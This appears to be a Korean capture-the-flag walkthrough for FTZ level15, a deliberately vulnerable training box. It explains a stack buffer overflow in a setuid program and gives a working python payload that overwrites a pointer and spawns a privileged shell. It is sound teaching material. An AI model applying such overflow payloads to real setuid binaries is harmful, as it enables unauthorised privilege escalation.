 # FTZ Level15

#### ID : level15 PW: guess what
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level15의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

main()
{
      int crap;
      int *check;
      char buf[20];
      fgets(buf, 45, stdin);      #buf 변수에 45바이트만큼 입력받음
      if (*check==0xdeadbeef)     #check 포인터가 0xdeadbeef면
      {
          setreuid(3096, 3096);
          system("/bin/sh");      #/bin/sh 쉘 실행
      }
}
```
```fgets``` 함수에서 BOF가 일어날 수 있다!!<br>
이전 단계인 level14와 거의 유사한데 다만 check가 포인터변수로 바뀌었다<br>

우리의 목적을 생각해보자.<br>
1. buf[20]에서 *check까지 거리 구하기
2. 0xdeadbeef 주소 알기
3. *check 주소에 0xdeadbeef 덮어씌우기
3. 공격!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 0x38만큼의 공간을 만들고 있다. 0x38은 10진수로 56이다.<br>
crap 변수 4bytes, check 변수 4byte, buf 20byte 총 28byte가 필요한데 56byte를 할당했다는 것은 dummy로 28byte가 있다고 생각할 수 있다.<br>
dummy가 어디에 위치해 있는지 찾아봐야겠다.<br>
<main+32>를 보면 0xdeadbeef랑 0xfffffff0를 비교하고 있다.(eax가 0xfffffff0이므로)<br>
저 **0xfffffff0**이 바로 *check의 주소인 것이다. 이는 ebp로부터 -16에 위치하고 있다.<br>
buf는 ebp로부터 -56에 위치하고있고 *check는 -16에 위치하고 있으니<br>
buf에서 *check까지의 거리는 **40**이다.<br>

현재 상태를 나타내보면 다음과 같다.<br>
**buf(20)+dummy(20)+check(4)+crap(4)+dummy(8)+sfp(4)+ret(4)**<br>
*(사실 level14의 스택상태랑 동일하다)*<br>

이제 메모리 상에서 0xdeadbeef가 존재하는 위치를 알아보자.<br>
0x080484b0 <main+32> 에서 0xdeadbeef과 *check를 비교하고 있다. 이 위치의 메모리 데이터 10개를 바이트 단위로 출력해보자.<br>
```x/10x 0x080484b0```<br>
필자의 경우 중간중간에 beef와 dead를 볼 수 있었다. 다만 0xdeadbeef가 아니므로 다음 주소로 가보자.<br>
```x/10x 0x080484b1```<br>
아직 0xdeadbeef가 없다!<br>
```x/10x 0x080484b2```<br>
0x80484b2에서 0xdeadbeef를 볼 수 있다. 0xdeadbeef의 주소가 0x80484b2인 것이다.

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~check까지 거리)+(0xdeadbeef의 주소)**<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*40+"\xb2\x84\x04\x08"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*40+"\xb2\x84\x04\x08"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level16 Password is "~~". 라고 나올 것이다!!
